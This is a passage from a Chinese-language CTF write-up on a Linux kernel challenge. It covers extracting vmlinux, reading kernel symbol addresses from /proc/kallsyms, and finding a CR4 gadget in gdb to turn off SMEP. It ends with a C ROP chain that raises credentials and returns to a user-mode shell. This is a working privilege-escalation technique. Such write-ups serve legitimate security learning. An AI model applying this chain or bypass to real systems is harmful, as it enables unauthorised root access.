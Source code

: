 ```bash
try_decompress '\002!L\030'   xxx   'lz4 -d'
try_decompress '(\265/\375'   xxx   unzstd

# Finally check for uncompressed images or objects:
check_vmlinux $img

# Bail out:
echo "$me: Cannot find vmlinux." >&2
```

使用方法：``./extract_vmlinux bzImage > vmlinux``
执行后就能够在文件夹中找到vmlinux文件供我们分析。

**Step 1: 读取/proc/kallsyms获取内核函数地址**

本题与上一题均可以使用cat命令获取到内核函数的地址，但有所不同的是，在上一题，我们读取的是/tmp/kallsyms，是一个副本而不是/proc/kallsyms本身。/proc/kallsyms存放所有内核函数的地址，那为什么出题人还要大费周章地复制一份，为什么不能直接读取呢，/proc文件夹又没有设置权限。我们不妨试一下，在上一题直接读取/proc/kallsyms会打印出什么东西。
![](https://img-blog.csdnimg.cn/c109d13acad24dd5a1fa2698bb77c759.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBATDNIX0NvTGlu,size_15,color_FFFFFF,t_70,g_se,x_16)
嗯？为什么这里的地址全都变成0了？仔细查看两道题中init文件的不同之处，我们发现了一丝端倪：
![](https://img-blog.csdnimg.cn/3b3dbd355827494da19b5082f9babf8c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBATDNIX0NvTGlu,size_20,color_FFFFFF,t_70,g_se,x_16)
左边是这道题的init文件，右边是上一道题的init文件，我们发现上一道题对/proc做了一些额外的处理。查阅[资料](https://blog.csdn.net/gatieme/article/details/78311841?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165088900816782350946531%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=165088900816782350946531&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-78311841.142^v9^control,157^v4^control&utm_term=%2Fproc%2Fsys%2Fkernel%2Fkptr_restrict&spm=1018.2226.3001.4187)后发现，问题出在``/proc/sys/kernel/kptr_restrict``。当其值为1时，普通用户无法获取到内核的任何地址值。但在本题中并没有这样的命令，因此可以直接读取/proc/kallsyms文件获取所有内核函数的地址。又因为本题中没有开启KASLR，因此两个关键函数的地址总是不变的，我们使用cat命令获取之后将其直接复制到我们的exp中就可以了。
![](https://img-blog.csdnimg.cn/13e03819a5b64424b4d6aa57d4ff28e7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBATDNIX0NvTGlu,size_20,color_FFFFFF,t_70,g_se,x_16)

**Step 2: 绕过SMAP/SMEP**

在boot.sh中很容易就能发现本kernel开启了SMAP/SMEP保护。在这种保护下内核无法直接访问用户空间的内容，其中SMEP表示内核无法执行用户空间的代码。我们可以通过修改CR4寄存器的第20位标记将这个保护手动关闭。
![](https://img-blog.csdnimg.cn/ba76e314e8eb43c69eb314798b0b7f79.png)
我们使用前面通过脚本获取的vmlinux获取gadget，从中提取到了修改cr4寄存器的gadget地址为0xffffffff81004d80。
![](https://img-blog.csdnimg.cn/2a8534129bd54f498598b74f133b7ce9.png)
但在修改cr4之前，我们需要确认一下cr4寄存器中的值到底是什么，毕竟我们要修改的只是SMEP保护，对于其他位不应做任何修改。由于cr4属于控制寄存器，在内核运行过程中一般不会改变。我们查询gadgets.txt看看能不能通过普通的寄存器将cr4的值套出来。
![](https://img-blog.csdnimg.cn/7005e6236a1b416e9ee2e141828757f3.png)
这里我们选择将cr4寄存器的值保存到rax中，之后使用gdb进行调试，在此处下断点并跳转到此处即可查看。注意：本题的boot.sh中没有开启-s选项，需要手动修改才能将kernel映射到TCP的1234端口进行调试。

**调试方法：首先打开内核，之后在另一个终端输入``gdb vmlinux``，输入``target remote localhost:1234``即可attach到1234端口进行内核调试。**
![](https://img-blog.csdnimg.cn/f2320a1dea734546897e96e07b0d6ad3.png)
在上图中，我们刚刚引导内核执行了mov rax,cr4指令（直接输入reg cr4是无法显示cr4寄存器的值的），可以看到cr4的值为0x1006f0，其中最高位的1代表SMEP保护开启。因此我们只需要将cr4的值改为0x6f0就能关闭保护。

这样一来，我们就知道了关闭保护的方法了。关闭保护之后，我们就可以使用上一道题的ROP进行提权，在本题中，ROP应该在最后一步被触发。我们写出ROP链：

```c
	unsigned long long rop[20];
	int idx = 0;
	rop[idx++] = poprdi_ret;			// mov rdi, 6f0h
	rop[idx++] = 0x6f0;
	rop[idx++] = movcr4rdi_poprbp_ret;	// close SMEP
	rop[idx++] = 0;						// for pop rbp
	rop[idx++] = rise_cred;
	rop[idx++] = swapgs_poprbp_ret;		// ready to return to user mode
	rop[idx++] = 0;
	rop[idx++] = iretq;
	rop[idx++] = shell;
	rop[idx++] = user_cs;
	rop[idx++] = user_rflags;
```